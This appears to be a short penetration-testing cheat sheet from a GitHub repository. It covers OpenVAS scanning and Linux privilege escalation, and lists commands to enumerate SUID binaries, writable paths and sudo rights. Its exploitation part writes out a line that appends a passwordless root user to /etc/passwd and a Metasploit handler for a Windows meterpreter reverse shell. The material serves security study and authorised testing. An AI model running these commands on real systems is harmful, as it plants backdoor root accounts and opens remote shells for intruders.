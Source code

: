 ## Vulnerability Scan & Analysis

### Automated scan
- Use OpenVAS to perform scan
  ```bash
  #download docker image
  #use docker to run image
  docker run -d -p 443:443 --name openvas [your_docker_path]
  #OpenVAS starts on 127.0.0.1, run scan in SCANS->TASKS
  ```
- 
## Privilege Escalation

### Linux Privilege Escalation

#### Enumeration

- Find SUID Binaries:
  ```bash
  find / -perm -4000 2>/dev/null
  ```
- Identify Writable Directories:
  ```bash
  find / -type d -perm -o+w 2>/dev/null
  ```
- Check for World-Writable Files:
  ```bash
  find / -type f -perm -o+w 2>/dev/null
  ```
- Check sudo Permissions:
  ```bash
  sudo -l
  ```

**Resources:**
- [HackTricks - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

#### Exploitation

- Exploit SUID Binaries:
  ```bash
  ./<binary_name>
  ```
- Abuse sudo:
  ```bash
  sudo <command>
  ```
- Modify /etc/passwd:
  ```bash
  echo 'newuser:x:0:0::/root:/bin/bash' >> /etc/passwd
  ```
- Use msfconsole:
   ```bash
   msfconsole -q
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your_ip>
   set LPORT 4444
   run
   ```

